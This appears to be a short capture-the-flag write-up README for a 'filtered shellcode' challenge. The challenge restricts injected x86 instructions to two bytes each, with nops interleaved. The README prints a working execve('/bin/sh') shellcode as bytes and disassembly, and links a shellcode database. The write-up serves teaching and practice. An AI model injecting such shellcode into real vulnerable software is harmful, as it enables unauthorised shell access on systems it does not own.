 # Filtered-shallcode

## Introduction 📚
Running 2-bytes length assmbly instructions

## Analyzing the Code 🔬
The challenge is to inject assembly instructions with a length of only two bytes, while also inserting a "nop" instruction every two bytes in the code.

## The code to inject
```assembly
31 c9                   xor    ecx,ecx
f7 e1                   mul    ecx
b0 0b                   mov    al,0xb
51                      push   ecx
68 2f 2f 73 68          push   0x68732f2f
68 2f 62 69 6e          push   0x6e69622f
89 e3                   mov    ebx,esp
cd 80                   int    0x80
```
As you can see, the push command has a length of 5 bytes. Please review [this file](./a.asm) to see how I construct it using the inc and shl instructions.


## youtube 📺
[CTF explained \[Hebrew\] ](https://www.youtube.com/watch?v=esAEHo9-4vU&ab_channel=dolevben)

## Notes
* [shell code database website](https://shell-storm.org/shellcode/index.html)
* [assembley / disassembly website](https://defuse.ca/online-x86-assembler.htm#disassembly2)

